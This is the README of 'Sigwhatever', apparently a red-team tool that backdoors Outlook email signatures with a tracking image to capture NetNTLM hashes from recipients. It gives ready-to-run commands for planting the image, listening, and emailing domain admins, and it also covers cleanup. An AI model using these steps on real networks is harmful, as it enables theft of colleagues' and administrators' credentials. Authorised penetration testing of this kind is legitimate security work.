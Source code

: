 # Sigwhatever

For automated exploitation of netntlm hash capture via image tags in emails signatures. This targets Outlook specifically and will insert a 1x1px image into an existing signature block, or create a new signature as required. A listener is then started to capture authentication attempts that happen as a result of sent emails being viewed by other users.


The tool borrows code from the Seatbelt and Inveigh projects - features are:

* Queries the firewall for suitable ports to listen on (Uses some seatbelt code)
* Cross references HttpQueryServiceConfiguration for any usable URL ACLs
* TCP/HTTP server and hash capture (Uses Inveigh code)
* Signature Detection (to modify the appropriate registry settings and signatures)
* Modification of Signature
* Feature to send mail to specific group (e.g. domain admins)
* Option to create encrypted logs on disk
* Cleanup (Reverts changes in signature settings and existing signature)



---

## TLDR

Run: ```execute-assembly sigwhatever.exe AUTO```


Then when you're finished, run: ```execute-assembly sigwhatever.exe CLEANUP```


*Bear in mind that even running jobkill on the .net job does not seem to kill the spawned process.*

---


## Usage

Usage: `SigWhatever.exe OPERATION [OPTIONS]`


### Options
```
  -p, --port=VALUE           TCP Port.
  -l, --log=VALUE            Log file path.
  -g, --group=VALUE          Target Active Directory group.
  -f, --force                Force HTTP server start.
      --ba, --backdoor-all   Backdoor all signatures.
  -c, --challenge=VALUE      NTLM Challenge (in hex).
  -u, --url-prefix=VALUE     URL Prefix. e.g. /MDEServer/test
  -h, --help                 Show this message and exit.
  ```


### Operation

* `AUTO` - Just do everything for me - backdoor the signature and start the listener on this box.
  * `SigWhatever.exe AUTO`
* `CHECKTRUST` - Check whether the trust zone settings - if the domain isn't in there then this probably won't work
  * `SigWhatever.exe CHECKTRUST`
* `CHECKFW` - Check whether the host based firewall is on and whether there's an exception for the chosen port
  * `SigWhatever.exe CHECKFW -p <port>`
* `SIGNATURE` - hijack the current user's signature, or add a new one via registry changes
   * `SigWhatever.exe SIGNATURE [-p <port>] [-l <logfile>] -u <url prefix> [--backdoor-all] [--force]`
* `SIGNOLISTEN` - hijack the current user's signature, or add a new one via registry changes and **don't** start a listener.
  * `SigWhatever.exe SIGNOLISTEN -s <server> -p <port> -l <logfile> [--backdoor-all]`
* `CLEANUP` - Remove any modifications to the registry or htm signature files
  * `SigWhatever.exe CLEANUP`
* `EMAILADMINS` - Enumerate email addresses from an AD group and send them a 'blank' email with the payload.
  * `SigWhatever.exe EMAILADMINS -g <Active Directory group> -p <port> [-l <logfile>] [--force]`
* `LISTENONLY` - Just start the listener - make sure it's on the same port
  * `SigWhatever.exe LISTENONLY -p <port> [-l <logfile>]`
* `SHOWACLS` - List all URL Reservation ACLs with User, Everyone or Authenticated Users permissions.
  * `SigWhatever.exe SHOWACLS`


**NOTE: With the signature option, if --backdoor-all is not specified then the tool will attempt to get the current signature from Outlook - this may cause a popup for the user if their AV is out of date.**
  
Authors: David Cash, Rich Warren, Julian Storr 
